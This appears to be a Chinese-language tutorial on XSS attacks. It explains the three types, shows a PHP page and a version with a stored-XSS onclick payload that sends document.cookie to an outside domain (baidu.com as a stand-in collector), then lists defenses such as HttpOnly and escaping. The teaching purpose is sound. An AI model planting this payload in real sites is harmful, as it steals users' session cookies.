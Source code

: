 ### 什么是XSS攻击?
XSS攻击全称跨站脚本攻击 , XSS分为3种类型 分别是反射型 , 存储型 和 DOM型 , 主要是利用 js 和 html 标签未经过转义和过滤

### 正常文章
这是一个php脚本文件 , 作用是启动 session 并在session内存入user_id字段 , 并且展示了一篇文章 , 众所周知 session 其实就是一个cookie , 只不过这个cookie的name是ssid罢了 (可通过php.ini设置session名称) , 而 cookie 的出现是为了解决 http 无状态协议的缺点 , cookie 就是你的身份证 , 如果cookie被盗 那么不法分子可以利用你的cookie(身份证) 为所欲为


```php
<?php

session_start();
$_SESSION['user_id'] = 99;

?>

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <style type="text/css">
        div{text-align: center}
    </style>
</head>
<body>
<div>
    <h1>这是一篇文章</h1>
    <p>文章内容</p>
</div>
</body>
</html>
```
![](/assets/xss-1.png)

上面的h1标签和p标签是用户发步的 , 就好比我现在在写这篇文章 , 当我写完点击发送时 , 其实发送的是带标签的html文档 , 我们可以找到发送文章的接口 , 然后将带xss的文章发送出去 , 当然发送的时候需要带你的cookie

### 带XSS的文章
```php
<?php

session_start();
$_SESSION['user_id'] = 99;

?>

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <style type="text/css">
        div{text-align: center}
    </style>
</head>
<body>
<div>
    <h1>这是一篇文章</h1>
    <p onclick="(function(){document.write('<script src=\'https://baidu.com?cookie='+ document.cookie +'\'></script>' )})()">文章内容</p>
</div>
</body>
</html>
```
发送后数据将永久的存在于服务器的数据库和文件内 , 可以看到 页面内容完全没有变化 , 但是我注入了一个 onclick 事件 , 他的作用是当用户点击内容的时候 , 会向 baidu.com 的域名上发起一个Get请求 , 参数是cookie , 而如果百度记录了你的请求 , 那么恭喜你 , 你的cookie(包括session)成功被盗
![](/assets/xss-3.png)
这里有先决条件, 第一我提交了具有XSS的文章, 并且没有被服务端过滤掉, 第二你触发了我的陷阱,第三你是登录状态, 那么我才有可能得到你数据.

### 如何防患
1. 在Set-Cookie首部字段内加入 `HttpOnly` , 禁止 javascript 访问cookie的内容
2. 对用户的数据进行过滤和转义